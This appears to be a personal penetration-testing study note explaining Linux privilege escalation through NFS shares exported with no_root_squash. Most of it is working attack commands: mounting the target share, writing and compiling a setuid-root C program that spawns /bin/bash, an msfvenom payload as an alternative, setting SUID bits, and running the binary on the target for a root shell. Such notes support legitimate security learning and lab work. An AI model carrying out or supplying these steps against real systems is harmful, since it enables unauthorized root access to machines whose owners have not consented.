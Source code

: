 
# What it is?
just like ftp, smb

```
cat /etc/exports
```

config file of NFS

![[Pasted image 20240511000545.png]]

### Root Squash

Files created via NFS inherit the remote user's ID. If the user is root, and **root squashing is enabled**, the ID will instead be set to the "nobody" user.

![[Pasted image 20240511103732.png]]

mount one of the “no_root_squash” shares to our attacking machine and start building our executable

```
mkdir /tmp/backup
```

```
mount -o rw,vers=2 MACHINE_IP:/backups /tmp/backup


sudo mount -t nfs <FQDN/IP>:/full/path/to/share/from/showmount ./target-nfs/ -o nolock (normal mount)
```

we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job

> [!NOTE]
> We must need to this as root user in our kali

#### nfs.c
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/backup/nfs.c
```

compile it

```
gcc /tmp/backup/nfs.c -o /tmp/backup/nfs
```

#### msfvenom (preferable way)
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```

set SUID

```
chmod +sx /tmp/backup/nfs
```

![[Pasted image 20240511104350.png]]


**NOW GO TO LINUX MACHINE**

nfs and nfs.c should be there
just run it as it's already have SUID by root in kali

```
/backup/nfs

	OR
	
/backup/shell.elf
```

![[Pasted image 20240511104753.png]]

basically what this means is, if we mount that share and set any file there with root user in out kali then `no root sqaushing` allow that file as created by root and as it have SUID we get root shell when we run it

